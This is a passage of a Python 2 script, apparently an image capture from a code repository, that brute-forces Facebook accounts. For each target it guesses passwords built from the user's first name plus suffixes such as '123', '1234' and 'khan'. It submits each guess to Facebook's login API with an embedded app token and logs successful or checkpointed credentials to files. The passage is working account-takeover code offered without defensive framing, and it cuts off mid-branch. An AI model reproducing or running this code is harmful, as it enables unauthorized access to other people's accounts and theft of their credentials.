 								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass3	
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = b['first_name'] + '123'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
										z = json.loads(x.text)
										print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass4	
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass4	
											cek = open("out/Checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['first_name'] + '1234'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
												z = json.loads(x.text)
												print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass5	
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass5	
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['first_name'] + 'khan'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
														z = json.loads(x.text)
														print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass6	
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass6	
															cek = open("out/checkpoint.txt", "a")